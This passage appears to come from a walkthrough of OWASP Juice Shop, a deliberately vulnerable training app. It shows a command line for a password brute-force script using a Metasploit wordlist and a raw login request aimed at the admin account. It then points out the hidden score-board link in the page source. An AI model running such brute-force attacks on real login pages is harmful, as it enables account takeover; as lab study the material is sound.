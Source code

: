 ```
./http-post-bruteforce.py -r req.txt -p /usr/share/wordlists/metasploit/common_roots.txt
```
Where is:

 * `-r` the request file, with mark `**B**`, pointing the place where passwords to be inserted
 * `-p` passwords file

```
POST /rest/user/login HTTP/1.1
Host: 127.0.0.1:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.0.148:3000/
Content-Type: application/json;charset=utf-8
Content-Length: 42
Cookie: continueCode=D4gRrQo8yX2ex3pqz9KLd1ZHEu8h3IESwH4uKtRGkON6wWVaBZMn5jbl17EP; io=_FZ38o2zC2kfAUIxAAZp
Connection: close

{"email":"admin@juice-sh.op","password":"**B**"}
```

# Score table!

Maybe we should first of all to look at page's source? There is interesting html code:

```
            <li class="dropdown" ng-show="isLoggedIn()">
                <a href="#/change-password"><i class="fas fa-user-secret fa-lg"></i> <span translate="TITLE_CHANGE_PASSWORD"></span></a>
            </li>
            <li class="dropdown">
                <a href="#/contact"><i class="fas fa-comment fa-lg"></i> <span translate="TITLE_CONTACT"></span></a>
            </li>
            <li class="dropdown" ng-show="isLoggedIn()">
                <a href="#/recycle"><i class="fas fa-recycle fa-lg"></i> <span translate="NAV_RECYCLE"></span></a>
            </li>
            <li class="dropdown" ng-show="isLoggedIn()">
                <a href="#/complain"><i class="fas fa-bomb fa-lg"></i> <span translate="NAV_COMPLAIN"></span></a>
            </li>
            <li class="dropdown" ng-show="scoreBoardMenuVisible">
                <a href="#/score-board"><i class="fas fa-trophy fa-lg"></i> <span translate="TITLE_SCORE_BOARD"></span></a>
            </li>
            <li class="dropdown ribbon-spacer">
                <a href="#/about"><i class="fas fa-info-circle fa-lg"></i> <span translate="TITLE_ABOUT"></span></a>
            </li>

```
